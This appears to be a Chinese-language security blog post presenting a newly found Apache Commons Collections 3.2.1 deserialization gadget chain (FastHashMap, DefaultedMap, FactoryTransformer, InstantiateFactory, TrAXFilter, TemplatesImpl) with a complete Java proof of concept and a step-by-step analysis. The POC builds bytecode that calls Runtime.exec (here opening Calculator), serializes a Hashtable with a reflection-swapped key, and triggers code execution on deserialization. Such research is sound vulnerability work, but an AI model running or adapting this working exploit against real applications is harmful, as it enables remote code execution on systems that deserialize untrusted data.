

# 前言

最近在学习CodeQL，对CC链进行了一次挖掘，在3.2.1版本中找到了一些可以利用的链子，如今对最短的一条编写了POC，顺便来分析一下，除此之外，还有二次反序列化的链子，这里就不分析了


这里为了方便，将CloneTransformer换成了FactoryTransfomer

主要是这里的DefaultedMap只有在3.2.1才能利用

# 漏洞复现

```
package CC;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.FastHashMap;
import org.apache.commons.collections.functors.FactoryTransformer;
import org.apache.commons.collections.functors.InstantiateFactory;
import org.apache.commons.collections.map.DefaultedMap;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;


public class CCD {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass STU = pool.makeClass("T0WN");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open /System/Applications/Calculator.app\");";
        STU.makeClassInitializer().insertBefore(cmd);
        STU.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        STU.writeFile();
        byte[] classBytes = STU.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};

        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates,"_name","DawnT0wn");
        setFieldValue(templates,"_class",null);
        setFieldValue(templates,"_bytecodes",targetByteCodes);

        InstantiateFactory factory = new InstantiateFactory(TrAXFilter.class, new Class[]{Templates.class}, new Object[]{templates});
        FactoryTransformer transformer = new FactoryTransformer(factory);

        HashMap tmp = new HashMap();
        tmp.put("zZ", "d");
        DefaultedMap map  = (DefaultedMap) DefaultedMap.decorate(tmp, transformer);


        FastHashMap fastHashMap1 = new FastHashMap();
        fastHashMap1.put("yy","d");

        Hashtable obj = new Hashtable();
        obj.put("aa", "b");
        obj.put(fastHashMap1, "1");

//        Object[] table = (Object[]) Reflections.getFieldValue(obj, "table");
        Field field = obj.getClass().getDeclaredField("table");
        field.setAccessible(true);
        Object[] table = (Object[]) field.get(obj);
        // hashmap的索引会根据key的值而变化，如果要改前面的key的话，这里的索引可以用调试的方式改一下
        Object node = table[2];
        Field keyField;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        if (keyField.get(node) instanceof String){
            keyField.set(node, map);
        }

        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("CCD.bin"));
        os.writeObject(obj);

        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("CCD.bin"));
        fos.readObject();

    }
    public static void setFieldValue(Object obj,String filename,Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(filename);
        field.setAccessible(true);
        field.set(obj,value);
    }

}
```


# 漏洞分析

首先明确了我们最后是用加载字节码的方式去实现RCE的

利用链如下

```
FastHashMap:equals()
	DefaultedMap:get()
		FactoryTransfomer:transformer()	#这里也可以是CloneTransformer的tansformer方法
			InstantiateFactory:create()
				TrAXFilter:构造方法
					TemplatesImpl:newTransformer()
```

看到equals方法，想到了CC7中可以用HashTable，HashMap，HashSet这些的readObject方法作为出发点

但是调用这些equals方法有一个共同点，就是我们需要去put两个hashCode相同的键值对，但是呢，在CC链中，put调用的putval会触发equals方法，直接走到结束，而在这个过程中，会抛出一个异常导致程序结束（只有在加载字节码的时候会有这个问题，如果是调用invoke的话，则不会存在这个问题）

```
public V put(K key, V value) {
        return putVal(hash(key), key, value, false, true);
    }
```

在比较了CC7和Y4在rome链缩短的时候调用equals方法的操作后，发现都行不通

CC7会出现上面说的抛出异常程序结束的情况

而Y4调用equals方法，虽然都控制了调用的类，但是也会出现上述情况，那为什么在Rome链中可行呢，调试发现，在CC链中，put走到最后的时候会抛出一个异常，结束程序


而在Rome依赖中，虽然也会出现一个异常，但并不会导致程序结束


可以继续执行到接下来的步骤

在这两种方法都不行的情况下，想起可以用反射来修改key的值

可是在Map中，key，value是通过键值对存储的，普通的反射调用是行不通的，我们需要用如下方式去修改对应的key

```
Hashtable obj = new Hashtable();
        obj.put("aa", "b");
        obj.put(fastHashMap1, "1");
        
        Field field = obj.getClass().getDeclaredField("table");
        field.setAccessible(true);
        Object[] table = (Object[]) field.get(obj);
        // hashmap的索引会根据key的值而变化，如果要改前面的key的话，这里的索引可以用调试的方式改一下
        Object node = table[2];
        Field keyField;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        if (keyField.get(node) instanceof String){
            keyField.set(node, map);
        }
```

其实这种方式在ysoserial里面是存在的，但是这里的索引值一直有点不懂，会根据key的值而变化，是通过一个hash函数来确定索引的位置的（HashMap的链表初始长度为16）

接下来根据HashTable的readObject方法


跟进reconstitutionPut，此时的key是FastHashMap，但是现在的e为null，不会进入for循环


往下走会会把FastHashMap的key.hashCode，key，value等放进一个entry，然后count自增


因为我们向HashTable钟put了两对值，所以通过for循环再次调用了reconstitutionPut，此时的key是DefaultedMap


我们的目的是要调用`e.key.equals(key)`，所以我们在if语句这里，要保证`e.hash=hash`否则不会执行后面的语句

e.hash其实就是调用的HashTable.hashCode，而此时的hash就是DefaultedMap.hashCode


可以看到，调用了DefaultedMap的负累AbstractMapDecorator的hashCode方法，实际上就是调用的hashMap的hashCode，因为我们调用DefaultedMap.decorate的时候传入的是hashMap

```
public final int hashCode() {
    return Objects.hashCode(key) ^ Objects.hashCode(value);
}
```

所以说，实际上比较的是

```
fastHashMap.put("yy","d");
hashmap.put("zZ", "d");
```

在解决了hashCode的问题后，我们来看`e.key.equals(key)`，我们的目的就是调用FastHashMap的equals方法

虽然这里刚刚好符合，但是并不明白为什么第一个是FastHashMap，第二个是DefaultedMap，这个顺序是怎么确定的，如果反过来，那不就不行了吗（修改的应该是第一个put进去的值）

根据FastHashMap的equals方法



这里调用了DefaultedMap的get方法


DefaultedMap并没有包含yy这个key，而value实现了Transformer接口，调用FactoryTransformer方法

```
public Object transform(Object input) {
    return this.iFactory.create();
}
```

这里的iFactory是通过构造函数可控的，调用InstantiateFactory的create方法


这个类的构造函数调用了findConstructor，我们可以去实例化TrAXFilter的构造方法，接下来就调用TemplatesImpl的newTrasnformer方法然后加载字节码了

